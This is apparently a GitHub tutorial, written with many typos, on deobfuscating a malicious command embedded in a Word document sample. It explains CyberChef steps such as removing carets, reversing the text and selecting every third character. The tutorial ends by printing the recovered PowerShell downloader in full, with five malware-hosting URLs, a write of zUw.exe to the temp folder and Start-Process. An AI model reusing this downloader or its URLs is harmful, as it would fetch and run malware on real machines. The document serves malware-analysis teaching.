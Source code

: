 
#### In this Tutrail i will show you how to Deofcated A milieous VBS enabded in Doc File 

Start : https://www.hybrid-analysis.com/sample/9a43186e72bde764614b092b55d4dfba00f528c5f0d45e6ccb56dcee8763a845?environmentId=100 

![1](https://user-images.githubusercontent.com/29158503/60865490-d0fdcc80-a22e-11e9-8114-827ce5233897.png)
 inline style: ![logo](https://raw.githubusercontent.com/adam-p/markdown-here/master/src/common/images/icon48.png)


#### After Downloading the sample let go to Cyberchef to analyze the Malicious cmd.exe command present on Hyperd analysis


![2](https://user-images.githubusercontent.com/29158503/60865489-d0fdcc80-a22e-11e9-8a97-e358694714ee.png)
                                                   Figure(2)


#### Now we need to  de-obfuscate the command using cyberchef as follow : 
1* Using replace| find Function to clean the code from (^) 

2* We notice there are SET for a verivble called (9ojB) we select that veribale and see we can find ! 

3* By the end of line we found "For /l  %3  IN  (+1640 ,  -3 ,+2 )", that mean the attcker telling the script to start from index 1640 (Whic is the last characker in the code )  and skkiping  two ckarakter all the way up.

4* To make this readbale lets revrese the code (Despaiye the fact it start from down top up) by using revrese function in Cybershef 

5* Now we need to select first Character and skipping two Characters by using regulare experation "(.).." and also select "List Capture Gruops" 

6* Great, All you need to do now is adding Synatx highliter to make the output more clear screen shot below 

![3](https://user-images.githubusercontent.com/29158503/60870145-f2fc4c80-a238-11e9-9774-79f7cace6eff.PNG)
                                                   Figure(3)



```javascript
powershell $BYi='rfd';$iQF='http://mahimamedia.com/YxdW87t@http://mandujano.net/NWJ6@http://www.creativeagency.biz/Sa0BVm@http://www.brgsabz.com/sq@http://biogas-bulgaria.efarmbg.com/fiDaiHg'.Split('@');$RdW=([System.IO.Path]::GetTempPath()+'\zUw.exe');$uIY =New-Object -com 'msxml2.xmlhttp';$svp = New-Object -com 'adodb.stream';foreach($PXv in $iQF){try{$uIY.open('GET',$PXv,0);$uIY.send();If ($uIY.Status -eq 200) {$svp.open();$svp.type = 1;$svp.write($uIY.responseBody);$svp.savetofile($RdW);Start-Process $RdW;break}}catch{}}      
```
